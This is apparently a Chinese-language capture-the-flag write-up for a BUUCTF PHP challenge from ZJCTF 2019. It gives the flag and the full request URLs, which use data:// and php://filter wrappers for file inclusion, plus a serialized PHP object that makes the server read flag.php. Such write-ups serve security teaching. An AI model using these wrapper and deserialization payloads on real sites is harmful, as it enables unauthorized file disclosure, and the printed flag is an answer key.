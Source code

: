 ```yaml
---
Author: SuperJason
Date: 2021-01-19
---
```


## flag
`flag{518a6b39-0416-4b19-85d5-477975f31b6e}`

## 思路
1. 分析源码，通过data伪协议构造text，php伪协议获取useless.php  
```http://f24186f1-2297-429c-a5c2-67224f46c43a.node3.buuoj.cn?text=data://text/plain;base64,d2VsY29tZSB0byB0aGUgempjdGY=&password=1&file=php://filter/read=convert.base64-encode/resource=useless.php```
2. useless.php文件内容如下，构造序列化的数据，在反序列化之后，会自动执行__tostring函数，实现获得文件内容  
```php
<?php

class Flag{  //flag.php  
    public $file;  //="flag.php"
    public function __tostring(){  
        if(isset($this->file)){  
            echo file_get_contents($this->file); 
            echo "<br>";
        return ("U R SO CLOSE !///COME ON PLZ");
        }  
    }  
};
//$f=new Flag();
//echo serialize($f);
?>
```
3. 完整载荷如下，这里file利用伪协议的话，会让`echo $password`无法展示，故这里为useless.php   
```http://f24186f1-2297-429c-a5c2-67224f46c43a.node3.buuoj.cn?text=data://text/plain;base64,d2VsY29tZSB0byB0aGUgempjdGY=&password=O:4:"Flag":1:{s:4:"file";s:8:"flag.php";}&file=useless.php```
4. 在注释中含有flag  
   ![](../images/zjctf-2019-nz.png)

## 总结
- [php伪协议与文件包含](https://www.smi1e.top/%E6%96%87%E4%BB%B6%E5%8C%85%E5%90%AB%E6%BC%8F%E6%B4%9E%E4%B8%8Ephp%E4%BC%AA%E5%8D%8F%E8%AE%AE/)
- [php反序列化魔法函数](http://p0desta.com/2018/04/01/php%E5%8F%8D%E5%BA%8F%E5%88%97%E5%8C%96%E6%80%BB%E7%BB%93/)